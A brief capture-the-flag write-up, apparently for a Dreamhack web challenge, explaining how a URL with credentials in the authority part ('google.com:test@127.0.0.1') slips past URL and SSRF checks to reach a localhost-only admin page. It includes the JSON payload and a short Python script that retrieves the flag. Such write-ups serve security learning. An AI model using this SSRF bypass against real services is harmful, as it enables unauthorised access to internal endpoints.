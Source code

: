 # solution

This challenge is quite interesting, you need to know something about url. First let me summarize what we need to do to get the flag.

1. You need to set your own nickname in **/admin** (need to access in localhost)
2. Go to **/flag** and use that nickname to get flag.

First of all, i want to said that you need to know this kind of url, ex: **https://account:passwd@example.com/path?parameter=1223**. This url is different from the normal url in that it will provide an additional authentication part in the account:passwd place but the server still see the host is example.com (account:passwd dont affect the host name). By understandind this, we can build a payload

```
{
 "url": "http://www.google.com:test@127.0.0.1/admin?nickname=me"
}
```

when i put this payload, i can bypass **check-url** and **check-ssrf** function but still make the server understand this url come from localhost.
![alt text](image.png)<br>
![alt text](image-1.png)<br>

Python code

```
import requests

url = 'http://host3.dreamhack.games:22552'

obj = {'url': 'http://www.google.com:test@127.0.0.1/admin?nickname=me'}
requests.post(url+'/check-url', json=obj)

print(requests.post(url+'/flag?nickname=me').text)
```
